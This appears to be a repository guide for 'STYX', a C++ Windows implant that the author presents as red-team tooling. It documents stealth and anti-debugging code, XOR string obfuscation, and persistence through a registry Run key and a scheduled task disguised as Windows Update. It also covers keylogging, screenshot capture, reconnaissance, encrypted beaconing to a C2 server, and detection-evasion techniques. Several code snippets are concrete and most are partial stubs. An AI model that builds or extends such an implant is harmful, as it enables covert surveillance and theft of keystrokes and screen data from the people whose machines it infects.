


# 🖥️ STYX Client Guide

> **© 2024 Sebastian Martin. All rights reserved.**
> This documentation is proprietary and confidential. Unauthorized use, redistribution, or modification is strictly prohibited.

## 📋 Overview

The C++ client (`lab_client_redt_advanced.cpp`) is a sophisticated implant designed for Windows systems that implements advanced stealth, cryptography, and communication capabilities for red team operations.

## 🏗️ Architecture

### Core Components

```
+-----------------------+
|   Stealth Layer       |  ← Anti-debug, VM detection, process hiding
+-----------------------+
|   Cryptography Engine |  ← RSA-OAEP, AES-256-GCM, Windows CNG
+-----------------------+
|   Communication Module|  ← WinHTTP with certificate pinning
+-----------------------+
|   Persistence Manager |  ← Registry, scheduled tasks, service install
+-----------------------+
|   Collection Engine   |  ← Keylogging, screenshot, system recon
+-----------------------+
```

### Memory Layout



## 🔒 Cryptography Implementation

### RSA-OAEP Key Exchange

**Key Features:**
- 2048-bit RSA key strength
- OAEP padding with SHA-256
- Windows Cryptography API: Next Generation (CNG)
- Session-based perfect forward secrecy

**Code Implementation:**
```cpp
bool rsa_encrypt_oaep(const std::vector<BYTE>& publicKeyBlob, 
                     const std::string& plaintext, 
                     std::vector<BYTE>& ciphertext) {
    // Uses BCryptEncrypt with BCRYPT_PAD_OAEP
    // Implements PKCS#1 v2.1 standard
}
```

### AES-256-GCM Encryption

**Configuration:**
- 256-bit session keys
- 96-bit initialization vectors (IVs)
- 128-bit authentication tags
- Authenticated encryption with associated data

**Implementation Details:**
```cpp
std::vector<uint8_t> aes_encrypt_gcm(const uint8_t* plaintext, size_t plaintext_len,
                                   const uint8_t* key, uint8_t* iv_out, uint8_t* tag) {
    // Uses BCrypt with BCRYPT_CHAIN_MODE_GCM
    // Generates unique IV for each encryption
    // Returns ciphertext + authentication tag
}
```

### String Obfuscation

**Compile-time Obfuscation:**
```cpp
constexpr char xor_crypt_char(char c, char k = 0x55) {
    return c ^ k;
}

template<size_t N>
struct obfuscated_string {
    char data[N];
    // Obfuscates at compile-time, decrypts at runtime
};

#define OBF(s) []() -> const char* { \
    constexpr obfuscated_string<sizeof(s)> obs(s); \
    return obs.decrypt(); \
}()
```

## 🕵️ Stealth & Anti-Analysis

### Debugger Detection

**Multiple Detection Methods:**
```cpp
bool is_debugger() {
    return IsDebuggerPresent() || 
           CheckRemoteDebuggerPresent() ||
           // Additional checks via NtQueryInformationProcess
}
```

### VM Detection

**Configurable Detection:**
```cpp
bool is_vm() {
    // CPUID hypervisor bit check
    // Process enumeration for VM tools
    // Registry checks for virtualization artifacts
    return false; // Disabled for testing
}
```

### Process Hiding

**Stealth Techniques:**
```cpp
void stealth() {
    HWND h = FindWindowA(OBF("ConsoleWindowClass"), nullptr);
    if (h) ShowWindow(h, SW_HIDE);
    if (GetConsoleWindow()) FreeConsole();
    DisableThreadLibraryCalls(GetModuleHandle(nullptr));
}
```

## 📡 Communication Protocol

### HTTPS Communication

**WinHTTP Implementation:**
```cpp
std::string https_post(const std::string& host, const std::string& path, 
                      const std::vector<uint8_t>& data) {
    // Uses WinHTTP with TLS 1.2/1.3
    // Certificate pinning and validation
    // Proper user-agent spoofing
}
```

### Certificate Pinning

**Security Features:**
- Hardcoded server public key
- Certificate validation
- TLS protocol enforcement
- Hostname verification

### Beacon Format

**Beacon Data Structure:**
```
BEACON|username|hostname|pid|additional_data
```

**Encrypted Payload Format:**
```
[12-byte IV][16-byte TAG][N-byte AES-GCM ciphertext]
```

## 🔧 Persistence Mechanisms

### Registry Persistence

```cpp
bool persist() {
    // HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    RegSetValueExA(hKey, OBF("UpdateCore"), 0, REG_SZ, path, strlen(path) + 1);
}
```

### Scheduled Tasks

**Task Creation:**
```cpp
std::string cmd = std::string(OBF("/create /f /sc ONLOGON /rl HIGHEST")) + 
                 " /tn \"WindowsUpdate\" /tr \"" + path + "\"";
```

### Service Installation

**Service Configuration:**
- Hidden service installation
- Proper service description
- Automatic startup type

## 📊 Data Collection

### Keylogging

**Features:**
- Configurable flush intervals (60 seconds default)
- Encrypted storage in memory
- Secure transmission to C2
- Low-level keyboard hooking

### Screenshot Capture

**Implementation:**
- GDI+ based screen capture
- Configurable intervals (120 seconds default)
- JPEG compression
- Stealthy capture techniques

### System Reconnaissance

**Information Collected:**
- Username and hostname
- Process information
- Network configuration
- System architecture details
- Security software presence

## ⚙️ Configuration

### Compile-Time Configuration

**Defines in lab_client_redt_advanced.cpp:**
```cpp
#define C2_HOST "127.0.0.1"         // C2 server address
#define C2_PATH "/api/report"       // Beacon endpoint
#define C2_PORT 8443                // HTTPS port
#define BEACON_JITTER_MS 5000       // Beacon timing jitter
#define KEYLOG_FLUSH_SEC 60         // Keylog flush interval
#define SCREENSHOT_INTERVAL_SEC 120 // Screenshot interval
```

### Runtime Configuration

**Environment Detection:**
- Debugger presence
- Virtual machine detection
- User privilege level
- Network connectivity

## 🛡️ Security Considerations

### Memory Protection

**Secure Handling:**
- Sensitive data zeroed after use
- Stack protection mechanisms
- Heap encryption for critical data
- Anti-dumping techniques

### Network Security

**Communication Security:**
- TLS 1.2+ enforcement
- Certificate pinning
- Perfect forward secrecy
- Encrypted payloads

### Operational Security

**Best Practices:**
- Random beacon timing
- Traffic pattern variation
- Legitimate process mimicry
- Minimal disk writes

## 🔄 Operational Flow

### Initialization Sequence

1. **Stealth Initialization**
   - Hide console window
   - Disable debugger detection
   - Check VM environment

2. **Persistence Setup**
   - Registry modifications
   - Scheduled task creation
   - Service installation (if elevated)

3. **Cryptography Setup**
   - Load server public key
   - Generate session key
   - Perform RSA key exchange

### Main Loop



## 🧪 Testing & Validation

### Compilation Requirements

**Build Environment:**
- Visual Studio 2019+
- Windows SDK 10.0+
- C++17 compatibility

**Required Libraries:**
```cpp
#pragma comment(lib, "ws2_32.lib")
#pragma comment(lib, "winhttp.lib")
#pragma comment(lib, "crypt32.lib")
#pragma comment(lib, "bcrypt.lib")
// ... 20+ additional libraries
```

### Testing Methodology

**Validation Checklist:**
- [ ] Successful compilation
- [ ] Proper stealth initialization
- [ ] RSA key exchange completion
- [ ] AES-GCM encryption/decryption
- [ ] HTTPS communication
- [ ] Persistence mechanisms
- [ ] Data collection functionality

### Debug Build Features

**Development Aids:**
```cpp
#ifdef _DEBUG
void debug_log(const char* format, ...) {
    // Extensive logging for development
}
#endif
```

## 🚀 Performance Characteristics

### Resource Usage

**Memory Consumption:**
- Base memory: ~10-20 MB
- Peak during encryption: ~50 MB
- Keylog buffer: ~8 KB
- Screenshot memory: varies with resolution

**CPU Usage:**
- Idle: <1%
- Encryption operations: brief spikes
- Beacon transmission: minimal impact

**Network Usage:**
- Beacon size: ~2-5 KB
- Command output: variable
- Keylog data: compressed batches

### Timing Characteristics

**Beacon Intervals:**
- Base interval: 30-60 seconds
- Jitter: ±5 seconds
- Adaptive timing based on network conditions

## 🔧 Advanced Features

### Adaptive Behavior

**Environment Awareness:**
- Adjusts behavior based on debugger presence
- Modifies persistence methods based on privileges
- Changes communication patterns in monitored networks

### Error Handling

**Robust Implementation:**
- Graceful degradation on failure
- Automatic retry mechanisms
- Secure error reporting
- Fallback communication methods

### Extension Framework

**Modular Design:**
- Plugin architecture for additional capabilities
- Configurable feature set
- Runtime module loading

## 📚 API Reference

### Core Functions

#### `rsa_encrypt_oaep`
```cpp
bool rsa_encrypt_oaep(const std::vector<BYTE>& publicKeyBlob, 
                     const std::string& plaintext, 
                     std::vector<BYTE>& ciphertext);
```

#### `aes_encrypt_gcm`
```cpp
std::vector<uint8_t> aes_encrypt_gcm(const uint8_t* plaintext, size_t plaintext_len,
                                   const uint8_t* key, uint8_t* iv_out, uint8_t* tag);
```

#### `https_post`
```cpp
std::string https_post(const std::string& host, const std::string& path, 
                      const std::vector<uint8_t>& data);
```

### Utility Functions

#### `generate_random_bytes`
```cpp
std::string generate_random_bytes(size_t length);
```

#### `stealth`
```cpp
void stealth();
```

#### `persist`
```cpp
bool persist();
```

## 🎯 Operational Considerations

### Deployment Scenarios

**Recommended Use Cases:**
- Internal penetration testing
- Red team exercises
- Security control validation
- Incident response training

### Detection Avoidance

**Evasion Techniques:**
- Legitimate process names
- Standard user behavior simulation
- Network traffic blending
- Minimal system impact

### Maintenance Operations

**Client Management:**
- Remote update capability
- Configuration changes
- Feature enable/disable
- Clean uninstallation

---

*This client represents state-of-the-art implant technology for authorized security testing. Always ensure proper authorization before deployment.*